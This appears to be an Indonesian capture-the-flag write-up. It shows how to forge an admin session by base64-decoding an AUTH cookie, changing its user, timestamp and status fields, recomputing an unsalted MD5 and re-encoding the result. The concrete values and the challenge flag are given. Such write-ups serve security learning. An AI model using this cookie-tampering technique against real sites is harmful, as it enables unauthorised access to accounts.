 <h1><b></h1></b>
<pre>
You don't have admin access.
</pre>
</b><h3>Solution</h3></b>
<p align='justify'>Perhatikan Session Cookie, disana terdapat encoding base64 dengan name AUTH</p>
<p>Value --> Z3Vlc3QsYzM5YzE3MmFkMGVmNzQ3ZiwxNjA0NzY2MjM4LGZhbHNlOmM2YTMzNjVlZjY1NjhkMjJkZGQyMmUzYzAyN2NiNzg2</p>
<p>Hasil Decode --> guest,c39c172ad0ef747f,1604766238,false:c6a3365ef6568d22ddd22e3c027cb786</p>
<p>Dari hasil decode kita bisa membaginya beberapa list seperti dibawah</p>
<pre>
guest --> user
c39c172ad0ef747f --> random hexa
1604766238 --> unix timestamp
false --> status
c6a3365ef6568d22ddd22e3c027cb786 --> MD5
</pre>
<p align='justify'>Dari beberapa list diatas, user guest ganti menjadi admin, dan unix timestamp ditambahkan saja 36000 (1604766238 + 36000 = 1604802238), lanjut
status false ganti menjadi true, Terakhir ganti MD5nya yaitu hash dari seluruh list</p>
<p>admin,c39c172ad0ef747f,1604802238,true:a043f4246076d72a5d46a3a66231f302 --> YWRtaW4sYzM5YzE3MmFkMGVmNzQ3ZiwxNjA0ODAyMjM4LHRydWU6YTA0M2Y0MjQ2MDc2ZDcyYTVkNDZhM2E2NjIzMWYzMDI=</p>
<p>Ganti base64 pada AUTH dengan base64 yang baru dan reload halaman</p>
</b><h3>Flag</h3></b>
<pre>
FLAG-Feg03OSzWhxO03K94108100f
</pre>
